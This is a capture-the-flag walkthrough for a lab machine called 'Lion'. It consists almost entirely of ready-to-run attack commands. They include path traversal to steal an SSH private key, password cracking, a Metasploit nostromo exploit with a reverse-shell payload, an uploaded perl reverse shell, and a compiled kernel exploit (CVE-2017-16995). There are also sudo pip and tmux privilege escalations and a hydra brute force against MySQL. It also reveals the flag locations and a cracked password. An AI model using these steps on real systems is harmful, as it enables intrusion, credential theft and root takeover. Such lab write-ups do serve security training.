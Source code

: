 # Lion
## Method 1
3. `curl lion.thm:5555/?page=../../../../../../home/gloria/.ssh/id_rsa`
4. `chmod 777 id_rsa`
5. `ssh2john id_rsa > for_john&&john for_john --wordlist=/usr/share/wordlists/rockyou.txt`. The password is `dance`, you don't have to crack it.
6. `ssh -i id_rsa gloria@lion.thm`
## Method 2
### ExploitDB
1. https://www.exploit-db.com/exploits/47837
### Msfconsole
1. `use exploit/multi/http/nostromo_code_exec`
2. `set rport 8080`
3. `set rhost lion.thm`
4. `set payload linux/x86/meterpreter/reverse_tcp`
5. `set lhost tun0`
6. `exploit`
## Method 3
1. http://lion.thm/upload/
2. Executes `perl` file
3. `cp /usr/share/webshells/perl/perl-reverse-shell.pl .` and configure the IP and PORT values.


## Privilage Esc. 1
1. `export TMUX=/.dev/session,1234,0`
2. `tmux`
## Priv Esc. 2
1. https://github.com/gugronnier/CVE-2017-16995/blob/master/exploit-poc-pentest.c
2. `gcc --static exploit-poc-pentest.c -o exploit-poc-pentest` and upload it
3. `chmod +x ./exploit-poc-pentest`
4. `./exploit-poc-pentest`
## Alex Priv. Esc.
```bash
TF=$(mktemp -d)
echo "import pty; pty.spawn('/bin/bash')" > $TF/setup.py
sudo pip install $TF
```
## Flags
	cat /home/gloria/user.txt
	cat /home/marty/user.txt (Reversed)
	cat /home/alex/user.txt (Rot13)
	cat /root/.flag
	cat /opt/code/server.py
		MySQL: db-> blog, table-> users, id-> 140
		`hydra -l root -P /usr/share/wordlists/rockyou.txt lion.thm mysql`
